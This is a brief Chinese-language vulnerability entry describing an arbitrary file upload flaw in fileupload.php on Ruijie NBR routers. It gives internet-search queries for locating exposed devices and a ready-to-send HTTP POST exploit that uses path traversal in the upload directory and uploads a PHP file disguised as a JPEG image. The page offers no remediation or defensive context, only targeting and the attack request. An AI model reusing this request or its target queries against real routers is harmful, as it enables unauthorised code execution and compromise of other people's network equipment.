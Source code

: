 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 网络测绘

fofa: app="Ruijie-NBR路由器"

hunter: app.name="Ruijie 锐捷 NBR"

## POC / EXP

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```
